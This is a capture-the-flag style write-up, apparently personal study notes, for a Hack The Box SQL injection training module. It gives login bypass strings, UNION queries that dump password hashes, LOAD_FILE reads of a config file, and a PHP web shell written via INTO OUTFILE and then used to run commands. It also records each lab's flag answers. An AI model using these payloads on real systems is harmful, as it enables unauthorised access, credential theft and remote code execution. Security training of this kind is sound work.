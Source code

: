 ```yaml
---
title: CPTS labs - 16 SQL Injection Fundamentals
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# CPTS labs - 16 SQL Injection Fundamentals


## [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33)

### MySQL

Authenticate to 83.136.255.194:55762 with user "root" and password "password"
**Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

```
mysql -u root -h $ip -P $port -ppassword
show databases;
```

Results: employees

**What is the department number for the 'Development' department?**

```
mysql -u root -h $ip -P $port -ppassword
show databases;
show tables;
select * from departments;
```

Results: d005

**What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

```
mysql -u root -h $ip -P $port -ppassword
show databases;
show tables;
select * from employees WHERE first_name LIKE 'Bar%' AND hire_date='1990-01-01';
```

Results: Mitchem

**In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

```
mysql -u root -h $ip -P $port -ppassword
SELECT * from titles WHERE (emp_no > 10000 OR title NOT LIKE 'Engineer');
```

Results: 654

### SQL Injections

**Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

```
# Username
tom' OR '1'='1

# Password
lala
```

Results:  202a1d1a8b195d5e9a57e434cc16000c


**Login as the user with the id 5 to get the flag.**

```
# Username
' or id=5)#
# Leave password empty
```

Results:  cdad9ecdf6f14b45ff5c4de32909caec

Authenticate to `$ip:$port` with user "root" and password "password". Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.

```
mysql -u root -h $ip -P $port -ppassword

show databases;
use employees;
describe employees;
describe departments;
SELECT dept_no,dept_name,NULL,NULL,NULL,NULL from departments UNION select * FROM employees;
```

Results: 663


**Use a Union injection to get the result of 'user()'**

```
' ORDER BY 1;#
' ORDER BY 2;#
' ORDER BY 3;#
' ORDER BY 4;#
' ORDER BY 5;#

# With 5 columns it will return an error, so it has 4 columns

# Check out which ones are printed with
' UNION select 1,2,3,4;#

# The UI will give you columns 2,3,4. Inject the code there
' UNION select 1,user(),@@version,4;#

```

Results: root@localhost

### Exploitation

**What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

```
# This comes from the previous exercise...

# Get all the columns from the table users
cn' UNION select 1,column_name,3,4 from information_schema.columns WHERE table_name='users'-- -

# Get id, username and password from table users:
cn' UNION select 1,id,username,password from users-- -
```

| **Port Code** |     |     | **Port City** |     |     | **Port Volume**                  |     |     |
| ------------- | --- | --- | ------------- | --- | --- | -------------------------------- | --- | --- |
| 1             |     |     | admin         |     |     | 392037dbba51f692776d6cefb6dd546d |     |     |
| 2             |     |     | newuser       |     |     | 9da2c9bcdf39d8610954e0e11ea8f45f |     |     |

Results:  9da2c9bcdf39d8610954e0e11ea8f45f


**We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

```bash
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

Results: dB_pAssw0rd_iS_flag!


**Find the flag by using a webshell.**

```
# Upload a webshell using the file upload. 
# 1. User with `FILE` privilege enabled. If our user is root:
SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

# 2. Check that MySQL global `secure_file_priv` variable is not enabled
SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

# Write access to the location we want to write to on the back-end server. In this case we will upload a shell
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:

```html
https://$ip:$port/shell.php?0=id
```

Now we obtain the flag:

```html
https://$ip:$port/shell.php?0=cat%20%20/var/www/flag.txt
```

Results: d2b5b27ae688b6a0f1d21b7d3a0798cd


### Skills assessment

**Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

```
# Access to the site http:\\$ip:$port
# Enter as user
' OR 1=1-- -
# Enter anything as password

# The search box is vulnerable to SQL injection. It has 5 columns:
cn' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user WHERE user="root"-- -

# Checking out who we are:
cn' union select "",user(), "", "", ""-- - 
# It returns root

# Upload a SHELL
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -

# And now we can execute it:
http://94.237.58.147:55928/dashboard/shell.php?0=id

# Prints the root directory
http://94.237.58.147:55928/dashboard/shell.php?0=ls%20/

# Print the flag:
http://94.237.58.147:55928/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt
```

Results: 528d6d9cedc2c7aab146ef226e918396
